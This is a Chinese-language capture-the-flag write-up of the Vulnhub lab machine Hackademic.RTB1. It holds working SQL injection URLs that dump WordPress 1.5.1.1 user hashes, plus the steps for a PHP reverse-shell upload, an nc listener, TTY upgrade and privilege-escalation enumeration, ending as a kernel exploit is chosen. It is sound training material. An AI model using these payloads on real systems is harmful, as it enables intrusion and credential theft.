# 前言

**靶场介绍：**
一台 Vulnhub 的靶机，经典的 SQL 注入利用与提权。
下载地址：[https://download.vulnhub.com/hackademic/Hackademic.RTB1.zip](https://download.vulnhub.com/hackademic/Hackademic.RTB1.zip)

**攻击链思维导图：**




# 1.信息收集

## 1.1.Nmap 信息扫描

### 端口扫描

```bash
22/tcp closed ssh
80/tcp open 
```

### 详细信息

```bash
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  

```


### 漏洞扫描



# 2.WEB 渗透

## 2.1.漏洞发现

### 交互式分析

通过对目标网站进行浏览和功能交互，收集到以下页面跳转与传参逻辑：

点击主页，点标题可以跳转到另外一个页面

http://192.168.200.153/Hackademic_RTB1/



在点击 got root 的时候，会发出这样的一个请求
http://192.168.200.153/Hackademic_RTB1/?p=9



点击网页下面的最后一条链接，跳转?cat=1



找到了一个搜索页面，感觉能利用 SQL 注入



点击搜索页上的 archives， 跳转到 ?m=201101




### 注入点探测

在对页面进行交互式分析后找到了以下几个可以传参的值。接下来我将对下面的几个参数进行简单的 SQL 探测，来确定注入的入口

```
?p=9
?s=2
?m=201101
?cat=1
```

> **Tip:**
> 我们探测出这么多可以传输的值，怎么快速判断是否存在 SQL 注入呢？ 可以使用在传输的值后面加一个引号，通过报错来判断，不过不是所有页面都会有报错的情况的。



---
### 指纹识别

查看页面源码，能看出系统是基于 WordPress 1.5.1.1 搭建的



既然知道了这台机器的 Web 服务是基于什么搭建的，我可以尝试去搜索一下，有没有对应 CMS 的漏洞可以利用。从漏洞查询里明显得知，是存在 SQL 注入漏洞，如果在 Web 渗透中没有找到突破点



确实匹配到很多漏洞，但是对于我们有用的只有 Core（内核）的信息，Plugin（插件）的漏洞可以暂时不看。从完全配置的版本中能确定明确存在 SQL 注入的漏洞。

```
WordPress Core 1.5.1.1 - 'add new admin' SQL Injection                                                            | php/webapps/1059.pl
WordPress Core 1.5.1.1 - SQL Injection                                                                            | php/webapps/1033.pl
WordPress Core 1.5.1.1 < 2.2.2 - Multiple Vulnerabilities                                                         | php/webapps/4397.rb
```

---
## 2.2.SQL 注入利用

### 注入过程

通过之前注入点的探测，在 `?cat=` 上发现了存在 SQL 注入的漏洞，

- **获取数据库名：** 使用  `union select` 确认数据库名为 `wordpress`。

- 获取后端数据库基本信息：version 

- **爆表名：** 得到 `wp_users`, `wp_posts`, `wp_options` 等表。
 
- **爆用户信息：** 从 `wp_users` 表中提取字段 `user_login`, `user_pass`, `user_level`。

#### 操作步骤

**1. 获取数据库名** 使用 `union select` 语句，确认当前数据库名为 `wordpress`：

```sql
(select database())

wordpress
```


**2. 获取后端数据库表名** 构造 payload 查询 `information_schema.tables`，爆出数据库中的表名：

```sql
http://192.168.200.153/Hackademic_RTB1/index.php?cat=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5
```

得到表名如下：`wp_categories`, `wp_comments`, `wp_linkcategories`, `wp_links`, `wp_options`, `wp_post2cat`, `wp_postmeta`, `wp_posts`, `wp_users`。

**3. 获取字段名（列名）** 针对 `wp_users` 表，提取用户登录、密码和权限相关的字段。

> **拓展思路**： 因为 WordPress 是知名的 CMS，我们也可以直接上网查询 WordPress 1.5 版本的官方数据库表结构（如：[https://codex.wordpress.org/Database_Description/1.5](https://codex.wordpress.org/Database_Description/1.5)），从而省去繁琐的爆列名步骤，直接定位到 `user_login`, `user_pass`, `user_level` 等关键字段。

**4. 爆用户信息** 现在的渗透方向明确：获取管理员的用户名和密码，尝试 SSH 登录，或者找到 WordPress 后台登录界面，通过文件上传反弹 Shell 的方式获取 WebShell。

```sql
-- 提取所有用户及对应信息并格式化输出 (使用 0x2d 作为 '-' 连字符，0x0A 作为换行)
http://192.168.200.153/Hackademic_RTB1/index.php?cat=0 union select 1,(select group_concat(user_id,0x2d,user_login,0x2d,user_pass,0x2d,user_level,0x0A)),3,4,5 from wp_users
```

执行后返回以下结构化数据：

```Plaintext
1-NickJames-21232f297a57a5a743894a0e4a801fc3-1
2-JohnSmith-b986448f0bb9e5e124ca91d3d650f52c-0
3-GeorgeMiller-7cbb3252ba6b7e9c422fac5334d22054-10
4-TonyBlack-a6e514f9486b83cb53d8d932f9a04292-0
5-JasonKonnors-8601f6e1028a8e8a966f6c33fcd9aec4-0
6-MaxBucky-50484c19f1afdaf3841a0d821ed393d2-0
```

#### 获取凭证与后续利用

从上述数据中分析 `user_level`（权限等级），发现 `GeorgeMiller` 的权限等级为 `10`，属于管理员账号。


- **后台登录地址**：`http://192.168.200.153/Hackademic_RTB1/wp-admin/index.php`
    
- **管理员账号**：`GeorgeMiller`
    
- **管理员密码**：`7cbb3252ba6b7e9c422fac5334d22054` （用John对 MD5 解密后为明文 `q1w2e3`）
    

至此，成功获取到管理员后台凭证，为下一步的后台 GetShell 做好了准备。


# 3.权限维持

## 3.1.后台登录

访问 `http://192.168.200.153/Hackademic_RTB1/wp-admin/`，使用管理员凭据登录。



## 3.2.文件上传

登入上去后我打算先去看option选项，Miscellaneous中可以看到上传文件的选项，和服务目录



开启 `Allow File Uploads` 的选项



上传测试文件，上传成功，页面还返回了上传的文件地址



访问测试图片，成功访问，接下来可以上传我们的反弹 Shell 了


## 3.3.反弹 Shell

上传 Shell，在 Kali 中找到自带的 php-reverse-shell.php，修改其中的配置



访问 Shell 网页，nc 接受反弹



# 4.提权

## 4.1.初始信息收集与 Shell 升级

在 Kali 攻击机上建立监听并接受目标回连 WebShell，对目标机的基本信息进行探测，并且将基础的 **sh** 通过 Python 升级成可以交互的 **bash** 环境。

```bash
┌──(kali㉿kali)-[~/vulnhub/hackademic-RTB1/web]
└─$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.200.142] from (UNKNOWN) [192.168.200.153] 41240

# 查看系统内核版本，确认为 2.6.31.5，这为后续的内核提权提供了关键线索
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 11:40:57 up  4:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell

# 检查 Python 环境，准备升级 Shell
sh-4.0$ rpm -qa | grep python
python-meh-0.7-1.fc12.noarch
gnome-python2-gnomevfs-2.28.0-1.fc12.i686
...[省略部分非关键输出]...
python-2.6.2-2.fc12.i686

# 使用 Python 引入 pty 模块，获取完全交互式的 TTY Shell
sh-4.0$ python -c "import pty;pty.spawn('/bin/bash')"   
bash-4.0$ whoami
apache
```

接下来，我对常规的一些提权信息进行了一些枚举，包括 `sudo` 权限、主机计划任务( `/etc/crontab` )，以及 SUID 文件，但并未发现主机存在明显的错误提权路径。

```bash
# 尝试 sudo 提权失败，没有密码
bash-4.0$ sudo -l
[sudo] password for apache: 
Sorry, try again.
sudo: 3 incorrect password attempts

# 检查 passwd 文件和计划任务
bash-4.0$ cat /etc/passwd
bash-4.0$ cat /etc/crontab

# 查找具有 SUID 权限的文件，未发现可利用的异常文件
bash-4.0$ find / -perm -u=s -type f 2>/dev/null
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
...
/usr/bin/sudo
/usr/bin/passwd
/bin/ping
```

## 4.2 内核漏洞提权 (CVE-2010-3904)

由于常规配置错误提权无果，我们回溯到最初收集的系统信息：**Linux Kernel 2.6.31.5**。通过漏洞库模糊查询发现，该内核版本存在多个潜在的本地提权（Privilege Escalation）EXP。但在逐一比对后，目标系统并不满足这些 EXP 提示的具体受支持环境要求。经过筛选与排除，最终决定选用对环境限制较小、且能适配当前的 **RDS 协议本地提权漏洞（CVE-2010-3904）** 进行利用尝试，对应的 Exploit 文件为 `15285.c`。

```bash
searchsploit linux kernel 
```

